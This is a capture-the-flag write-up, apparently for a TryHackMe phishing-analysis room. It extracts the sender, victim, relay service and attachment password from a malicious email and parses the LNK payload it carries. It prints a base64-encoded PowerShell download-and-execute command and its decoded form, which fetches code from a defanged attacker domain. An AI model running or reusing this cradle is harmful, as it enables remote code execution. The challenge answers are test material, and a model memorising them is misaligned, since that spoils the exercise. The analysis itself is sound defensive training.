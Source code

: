 # Task 2: Email Analysis

## Scenario: The Boogeyman is Here!

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.

The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from other finance department employees. This indicates a highly targeted attack on the finance team. Upon checking the latest threat intelligence, the initial Tactics, Techniques, and Procedures (TTPs) used for the malicious attachment are attributed to a new threat group named **Boogeyman**, known specifically for targeting the logistics sector.

**Your task:** Analyze and assess the impact of this compromise, starting with the initial access vector.

---

## Investigation Guide: Analyzing `dump.eml`

Given the initial information, we know that the compromise started with a phishing email. Our first step is to analyze the `dump.eml` file, which is located in the `/home/ubuntu/Desktop/artefacts` directory within the provided VM.

There are two primary ways to analyze the email headers and rebuild the attached payload:

### Method 1: Manual Analysis (Command-Line Tools)

This method involves using basic command-line tools available in the VM to extract and decode information directly from the `.eml` file.

* **Tools:** `cat`, `grep`, `base64`, `sed`.
* **Process:** Manually analyze the contents of `dump.eml`. The encoded payload (often base64) is typically located at the bottom of the file. You will need to extract this string and decode it.

    ```bash
    # Sample command to rebuild the payload, presuming the encoded payload is written in another file, without all line terminators
    # Example: cat <PAYLOAD_FILE> | base64 -d > Invoice.zip
    ```

### Method 2: Using Thunderbird (GUI)

This is often the simpler and more intuitive method for initial email review.

* **Tool:** Thunderbird (pre-installed in the VM).
* **Process:** Double-click the `dump.eml` file to open it directly via Thunderbird. The email's content, headers, and attachments will be presented in a user-friendly interface. The attachment can then be easily saved and extracted.

### Extracting Payload Information with `LNKParse3`

Once the payload from the encrypted archive is extracted (which often results in a `.LNK` file), you will use the `lnkparse` tool to extract detailed information about it.

* **Tool:** `lnkparse`
* **Command Example:**

    ```bash
    ubuntu@tryhackme:~ $ lnkparse <LNK_FILE>
    ```

---

## Questions and Analysis

Please provide your findings and explanations for the following questions:

### 1. What is the email address used to send the phishing email?

The email address can be found by accessing the `dump.eml` file w/ Thunderbird, as shown in the image below.

![2025-06-17T15_37_20](https://github.com/user-attachments/assets/c7b5ba93-4af1-4df1-a3e7-39467c7a1823)

We see that the answer is: agriffin@bpakcaging.xyz

This image can also be used to answer questions 2 & 5.

---

### 2. What is the email address of the victim?

If we check the recipient of the email, we find that the answer is: julianne.westcott@hotmail.com

### 3. What is the name of the third-party mail relay service used by the attacker based on the `DKIM-Signature` and `List-Unsubscribe` headers?

To find this information with Thunderbird, we need to view the source and find the appropriate headers. 

![2025-06-17T15_37_24](https://github.com/user-attachments/assets/c31842ff-77f6-4119-bea3-e11771387754)

Once we do so, we find that the third-party mail relay service is: elasticemail

---

### 4. What is the name of the file inside the encrypted attachment?

To find this information, I downloaded the encrypted attachment to the artefacts directory and used the password provided in `dump.eml` to extract the file. 

![image](https://github.com/user-attachments/assets/2788c98c-a595-43a0-8905-f2d7895dc68b)

Once finished, we see that the name of the file is: Invoice_20230103.lnk

---

### 5. What is the password of the encrypted attachment?

As previously mentioned, we can find this information in the `dump.eml` file using Thunderbird. 

The answer is: Invoice2023!

---

### 6. Based on the result of the `lnkparse` tool, what is the encoded payload found in the `Command Line Arguments` field?

To find this information, we need to open up the terminal. From there we type the command, lnkparse <file_lnk>, as shown in the image below.

![image](https://github.com/user-attachments/assets/8d25a237-a0a3-40c3-9a98-3da95f44edd7)

Once we execute the command, we can find the answer in the output, as shown in the image below.

![image](https://github.com/user-attachments/assets/36778e16-0495-4127-977a-1911b3338083)

The answer is: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

When decoded, we find that the command is as follows: 

iex (new-object net.webclient).downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update') 

As a note, the link above has been defanged. This also applies for the links in the following analysis.


**Step-by-step Breakdown:**

1. iex - This powershell commandlet, short for Invoke-Expression, executes a specified string as a command and returns its results.

2. new-object net.webclient - Creates a new instance of the .NET class System.Net.WebClient. This object allows the script to download data from the internet.

3. .downloadstring('hxxp[://]files[.]bpakcaging[.]xyz/update') - Calls the DownloadString method of the WebClient object. This downloads the content at the specified URL (hxxp[://]files[.]bpakcaging[.]xyz/update) as a string. Whatever code is hosted at that URL is fetched as text.


**Putting it together:**

The command: Creates a web client, downloads code from the internet, and executes that code in memory.

Why This Is Dangerous: This is a classic technique used in malware and remote code execution. The code at the external URL could do anything: install software, steal data, create backdoors, etc. Since it’s dynamically downloading and executing code, it's hard to detect statically. Often used in PowerShell-based attacks or fileless malware.

---

